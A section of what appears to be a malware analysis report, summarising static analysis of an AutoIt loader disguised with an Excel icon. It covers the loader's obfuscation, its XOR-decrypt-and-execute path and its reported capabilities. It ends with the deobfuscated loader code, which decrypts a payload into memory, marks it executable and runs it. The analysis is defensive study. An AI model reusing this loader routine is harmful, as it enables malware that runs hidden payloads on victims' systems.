 
## 6. Static Analysis Summary

**Type:** AutoIt-compiled loader → executes embedded payload

---

### Obfuscation & Masquerading
- Rolling XOR decoding for  names, constants, and payload
- Randomized variable and function names
- Dead "noise" code, decoy  calls, fake URLs
- **Embedded Excel icon in resources** to masquerade as an Office document, despite being an executable
 
---

### Real Execution Path *(from decoded AutoIt)*
1. Drops **Archimago** & **complacence** into `%TEMP%`.
2. Decrypts **Archimago** with custom rolling XOR (`KOGMOFDJ`).
3. Allocates **RW memory** → marks **RX** (`VirtualProtect`) → executes payload via `CallWindowProc`.
4. Transfers control to **stage-2 payload** in memory.

---

### Dead Code Purpose
Inflates string surface + misleads static analysis.

---

### Key Decoded Strings
- `GetProcessHeap`
- `HeapAlloc`
- `VirtualProtect`
- `CallWindowProc`
- `DllStructCreate`

---

### Capabilities *(from capa + PEStudio)*
- Registry **Run-key persistence** *(not observed during dynamic analysis)*
- **Process injection** + remote thread creation
- **HTTP/SMTP** communications
- **Credential harvesting**
- **Anti-analysis** techniques *(WOW64 disable, process enumeration)*

---

### Deobfuscated Code Extracted from `main_sample.exe`

```
FileInstall ( "Archimago" , @TempDir & "\Archimago" , 1 )
Global $RDEVAVC = KOGMOFDJ ( FileRead ( @TempDir & "\Archimago" ) )
FileInstall ( "complacence" , @TempDir & "\complacence" , 1 )
Global $WJORKAPW = DllCall ("kernel32.dll", "ptr", "GetProcessHeap") [ 0 ]
Global $JIVEKJU = DllCall ("kernel32.dll", "ptr", "HeapAlloc", "ptr", $WJORKAPW , "dword", 0 , "dword", BinaryLen ( $RDEVAVC ) ) [ 0 ]
DllStructSetData ( DllStructCreate ("byte[" & BinaryLen ( $RDEVAVC ) & "]" , $JIVEKJU ) , 1 , $RDEVAVC )
DllCall ( "kernel32.dll", "bool", "VirtualProtect", "ptr", $JIVEKJU , "dword", BinaryLen ( $RDEVAVC ) , "dword", 0x40, "dword*", 0 )
DllCall ( "user32.dll", "ptr", "CallWindowProc" , "ptr", $JIVEKJU + 9200 , "ptr", 0 , "ptr", 0 , "ptr", 0 , "ptr", 0 )

```
